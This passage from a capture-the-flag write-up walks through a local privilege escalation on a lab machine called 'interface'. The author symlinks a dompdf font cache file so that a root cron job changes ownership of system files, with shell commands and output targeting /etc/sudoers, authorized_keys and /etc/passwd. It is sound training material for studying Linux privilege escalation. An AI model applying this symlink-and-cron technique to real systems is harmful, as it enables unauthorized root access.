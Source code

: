 To test, I'll make this file into a symlink that points to an
unimportant file, `/tmp/0xdf`:



    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /tmp/0xdf dompdf_font_family_cache.php
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l dompdf_font_family_cache.php
    lrwxrwxrwx 1 www-data www-data 9 Feb 13 20:53 dompdf_font_family_cache.php -> /tmp/0xdf



When the five-minute cron runs, `/tmp/0xdf` is there:



    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /tmp/0xdf 
    -rwxrwxrwx 1 www-data www-data 2863 Feb 13 20:55 /tmp/0xdf
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ head /tmp/0xdf
    <?php return function ($fontDir, $rootDir) {
    return array (
      'sans-serif' => array(
        'normal' => $fontDir . '/Helvetica',
        'bold' => $fontDir . '/Helvetica-Bold',
        'italic' => $fontDir . '/Helvetica-Oblique',
        'bold_italic' => $fontDir . '/Helvetica-BoldOblique',
      ),
      'times' => array(
        'normal' => $fontDir . '/Times-Roman',



It's owned by www-data, and has a clean version of the expected file.

### Overwrite shadow

#### File Fails

There are a handful of root owned files that I could overwrite to get
execution, but many come with reasons why they won't work. For example,
`/etc/sudoers` won't work unless it's owned by root:



    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ sudo -l
    sudo: /etc/sudoers is owned by uid 33, should be 0
    sudo: no valid sudoers sources found, quitting
    sudo: unable to initialize policy plugin



Similarly, `/root/.ssh/authorized_keys` will just be ignored unless it's
owned by root and permissions 600.

I can try `/etc/passwd`, but it breaks things, and doesn't quite work.
The group changes, but the user does not:



    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /etc/passwd dompdf_font_family_cache.php          
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /etc/passwd
    -rw-r--r-- 1 root www-data 2863 Feb 13 21:10 /etc/passwd
